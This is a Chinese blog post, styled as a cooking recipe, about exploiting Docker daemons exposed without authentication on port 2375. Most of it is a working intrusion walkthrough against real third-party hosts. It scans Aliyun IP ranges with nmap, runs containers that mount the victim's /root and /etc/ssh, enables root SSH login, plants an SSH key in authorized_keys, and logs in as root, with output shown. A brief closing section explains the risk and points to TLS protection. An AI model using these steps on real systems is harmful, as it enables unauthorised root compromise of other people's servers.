 # Docker的2375攻击和解决方案

相信了解过[docker](https://so.csdn.net/so/search?q=docker&spm=1001.2101.3001.7020) remote API的同学对2375端口都不陌生了，2375是docker远程操控的默认端口，通过这个端口可以直接对远程的docker daemon进行操作。

当\$HOST主机以**`docker daemon -H=0.0.0.0:2375`**方式启动daemon时，可以在外部机器对 \$HOST 的docker daemon进行直接操作：

```bash
docker -H tcp://$HOST:2375 ps
```

好，说说如何“入侵”，怎么通过这个端口入侵宿主机呢？

这个应该要从几个点说起吧：
- 1. docker对`user namespace`没有做隔离，也就是说，容器内部的root用户就是宿主机的root用户，一旦挂载目录，就可以在容器内部以宿主机的root用户身份对挂载的文件系统随意修改了。

- 1. docker服务拥有很高的执行权利(相当于root)，并且在docker用户组下的普通用户不需要任何其他验证就可以执行docker run等命令。
- 2. 暴露的docker remote  API端口如果没有启动ssl验证的话，任何能连通到这台docker宿主机的的机器都可以随意操作这台docker宿主机的docker  daemon（docker run、docker ps、docker rm等等这些命令都不在话下）。

结合以上3点，就基本具备入侵docker宿主机的条件了

讲得似乎有点悬，不多说，直接拿一个活鲜鲜的例子来讲吧：

(请允许我用最近新学的一道菜将流程带过 ╮(￣▽￣)╭ )

### 秘制红烧肉(docker版)

材料：一整块一整块的“5花”IP段，越肥越好（小白用户越多越好）

配料：nmap，docker

step 1: 扫描2375端口

怎么扫？我选用的是简单易用的黑客必备神器`nmap`了。

扫哪里呢？我选的目标是aliyun的IP段，百度得知：

```bash
42.96.128.0/17    Alibaba (Beijing) Technology Co., Ltd. China  
42.120.0.0/16    Aliyun Computing Co., LTD China  
42.121.0.0/16    Aliyun Computing Co., LTD China  
42.156.128.0/17    Aliyun Computing Co., LTD China  
110.75.0.0/16    Asia Pacific Network Information Centre China  
223.7.0.0/16    Hangzhou Alibaba Advertising Co.,Ltd. 
```

我不生产IP，我只是百度的搬运工，别问我这些IP从那来，我也想知道~ >.<

将上面IP内容保存在一个文件中，如 aliyun.list

开始扫描：

```bash
cat aliyun.list| awk '{print $1}' | xargs -n 1 -I {} nmap -sT -p2375 {} --open    

# 简单解释一下命令：
# awk 将第一列IP网段过滤出来
# xargs 将过滤出来的IP一个一个的分次送给nmap，-I {} 是指使用{}来代替传送的参数
# ...
# Starting Nmap 7.01 ( https://nmap.org ) at 2016-06-05 09:57 CST
# Nmap scan report for 42.96.MOSAIC.MOSAIC
# Host is up (0.070s latency).
# PORT     STATE SERVICE
# 2375/tcp open  docker
# ...
```

不到两分钟，第一块`42.96.MOSAIC.MOSAIC`（五花肉已打码） “五花肉”选好了，来吧~

### step 2: 测试2375的直接控制权

```bash
docker -H tcp://42.96.MOSAIC.MOSAIC:2375 ps
# CONTAINER ID        IMAGE                              COMMAND                  CREATED            STATUS             PORTS           
# 73aa690e7c92        imdjh/owncloud-with-ocdownloader   "/entrypoint.sh"         9 days ago          Up 3 days           0.0.0.0:9009->80
# f57c56af0e29        rethinkdb:2.3.2                    "rethinkdb --bind all"   9 days ago          Up 3 days           8080/tcp, 28015/
# 37c1401db593        gaomd/ikev2-vpn-server:0.3.0       "/bin/sh -c /usr/bin/"   10 days ago         Up 3 days           0.0.0.0:500->500
# af7338a5426d        nginx:1.9-alpine                   "nginx -g 'daemon off"   3 weeks ago         Up 3 days           443/tcp, 0.0.0.0
# ...
```

这个服务器的owner也太配合了(⊙ο⊙)，ps直接看到内容，说明这个主机的2375是没有ssl验证的，基本满足入侵要求。

“五花”洗好，切好，准备下锅~

### step 3: 远程启动自己的容器

拿到了docker的控制权能做什么呢？ **拿到了就呵呵了~**

```r
# images 看看本地已有的镜像
# docker -H tcp://42.96.MOSAIC.MOSAIC:2375 images
# ...
# swarm                              latest              47dc182ea74b        4 weeks ago         19.32 MB
# jwilder/nginx-proxy                latest              203b20631e41        4 weeks ago         255.6 MB
# ubuntu                             latest              c5f1cf30c96b        4 weeks ago         120.8 MB
# shipyard/shipyard                  latest              ba426f0944bc        5 weeks ago         58.92 MB
# ...
```

省略了一部分输出，镜像还蛮多的，就选个ubuntu吧

```bash
# docker -H tcp://42.96.MOSAIC.MOSAIC:2375 run --rm -it --entrypoint bash -v /root:/tmp/root -v /etc/ssh:/tmp/ssh_etc -v /var/log:/tmp/log ubuntu
```

看到这步，相信对ssh有一些了解的同学应该就明白了

### step 4: ssh pub key 注入

在刚刚启动的容器中先看看 `/tmp/ssh_etc/sshd_config` (就是宿主机的`/etc/ssh/sshd_config`) 的PermitRootLogin字段。如果是`no`就改成`yes`，允许root通过ssh登录

然后在**你的机器上**生成一对新的pub key（已经有ssh key的也建议生成一个新的，不要使用自己日常使用的ssh pub key）

```perl
# 使用 ssh-keygen生成
ssh-keygen -t rsa -C "hello@world.com"
# 执行命令后的提示Enter file in which to save the key要看好，不要把自己的ssh key覆盖了，可以选着/tmp/id_rsa
# 其他提示enter到底即可
```

继续，注入ssh pub key，回到**刚刚启动的容器**执行

```bash
cat >> /tmp/root/.ssh/authorized_keys <<EOF
>ssh-rsa AAA....     # 这里粘贴你刚刚在自己机器生成的/tmp/id_rsa.pub
>EOF
# 如果/tmp/root/.ssh目录不存在，就直接创建
```

八角香叶生抽老抽醋都加上，中火烹饪，准备出锅~

### step 5: 登入服务器

```ruby
# ssh -i 指定秘钥登录
ssh -i /tmp/id_rsa root@42.96.MOSAIC.MOSAIC
# Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic x86_64)
# ssh -i 指定秘钥登录
ssh -i /tmp/id_rsa root@42.96.MOSAIC.MOSAIC
 
# Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic x86_64)
#
# * Documentation:  https://help.ubuntu.com/
#
# Welcome to aliyun Elastic Compute Service!
#
# Last login: Fri Jun  3 01:38:07 2016 from 120.85.MOSAIC.MOSAIC
# manpath: can't set the locale; make sure $LC_* and $LANG are correct
# root@iZ28p9b7e***:~# 
# ...

```

大火收汁，起锅!

## 郑重声明

以上教程仅为交流学习之用，`42.96.MOSAIC.MOSAIC` 服务器上的`id_rsa.pub`在制作完本教程后已主动清除，并在服务上留言告知。

如果你一不小心也发现了可用的2375端口，**希望也能点到即止，误做他用**，或者发现其他入侵漏洞，可以和大家交流学习。

## 2375是docker漏洞吗？

非也！**2375直接裸露地暴露在公网上纯属是用户习惯或者偷懒的问题**，**2375可以在相对安全的内部网络中方便测试使用，并不适合使用在投入到生产环境中。**

docker官网第一篇文档quick start上有句话是这样子的：

```txt
Warning: Changing the default docker daemon binding to a TCP port or
Unix docker user group will increase your security risks by allowing
non-root users to gain root access on the host. Make sure you control
access to docker. If you are binding to a TCP port, anyone with
access to that port has full Docker access; so it is not advisable
 on an open network.
```

已经Warning告知：如果将daemon直接暴露在一个TCP端口，将可能会被以非root用户去获取宿主机的root权限。其实上面的说提到的服务器之所以这么容器被入侵，也正是这个原因。

## 何以防之

那么，问题来了，如果想用Remote API，又不想有被入侵的风险，怎么办呢？

docker官方文档上介绍了一种通过CA认证方式使用Remote API

具体可以参考：[Protect the Docker daemon socket](https://docs.docker.com/engine/security/https/)

(等理解了再补一篇博客吧，就姑且让我以一个链接的形式带过吧O.O)

配置过程还算是比较简单的，下面放一张图，展示配置SSL后的效果：

 

![img](Docker的2375攻击和解决方案.assets/t_70.png)

文章知识点与官方知识档案匹配，可进一步学习相关知识
